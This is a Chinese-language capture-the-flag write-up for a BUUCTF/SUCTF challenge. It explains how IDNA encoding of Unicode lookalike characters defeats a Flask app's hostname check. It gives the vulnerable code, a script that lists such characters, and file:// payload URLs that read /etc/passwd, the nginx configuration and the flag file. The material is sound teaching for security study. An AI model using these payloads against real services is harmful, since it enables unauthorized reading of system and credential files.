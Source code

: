 ### Unicdoe 编码绕过

话不多说，直接上题（BUUCTF）

![](https://pic1.imgdb.cn/item/67d7d73088c538a9b5bfe462.png)

打开网页给出了源代码

```python
@app.route('/getUrl', methods=['GET', 'POST'])

def getUrl():
    url = request.args.get("url")
    host = parse.urlparse(url).hostname
    if host == 'suctf.cc':
        return "我扌 your problem? 111"
    parts = list(urlsplit(url))
    host = parts[1]
    if host == 'suctf.cc':
        return "我扌 your problem? 222 " + host
    newhost = []
    for h in host.split('.'):
        newhost.append(h.encode('idna').decode('utf-8'))
    parts[1] = '.'.join(newhost)
    # 去掉 url 中的空格
    finalUrl = urlunsplit(parts).split(' ')[0]
    host = parse.urlparse(finalUrl).hostname
    if host == 'suctf.cc':
        return urllib.request.urlopen(finalUrl).read()
    else:
        return "我扌 your problem? 333"
```

利用点在这里 `urllib.request.urlopen(finalUrl).read()`，只要前两次 `host != suctf.cc`，第三次 `host == suctf.cc` 即可

而这利用的关键在于 `newhost.append(h.encode('idna').decode('utf-8'))` 编码问题，`Unicode` 的很多字符经过这样的一番编码处理都可以得到正常的字母

```python
chars = ['s', 'u', 'c', 't', 'f']
for c in chars:
	for i in range(0x7f, 0x10FFFF):
		try:
			char_i = chr(i).encode('idna').decode('utf-8')
			if char_i == c:
				print('ASCII: {}   Unicode: {}    Number: {}'.format(c, chr(i), i))
		except:
			pass
```

![](https://pic1.imgdb.cn/item/67d7da4a88c538a9b5bfe54f.png)

任意去一个替换 `['s', 'u', 'c', 't', 'f']` 其中一个即可绕过

```python
/getUrl?url=file://𝑆uctf.cc/etc/passwd
```

![](https://pic1.imgdb.cn/item/67d7da7f88c538a9b5bfe560.png)

然后是找 flag 位置，在 `Nginx` 的配置文件中

```python
/getUrl?url=file://𝑆uctf.cc/usr/local/nginx/conf/nginx.conf
```

![](https://pic1.imgdb.cn/item/67d7daac88c538a9b5bfe56e.png)

```python
/getUrl?url=file://𝑆uctf.cc/usr/fffffflag
```

![](https://pic1.imgdb.cn/item/67d7dac788c538a9b5bfe573.png)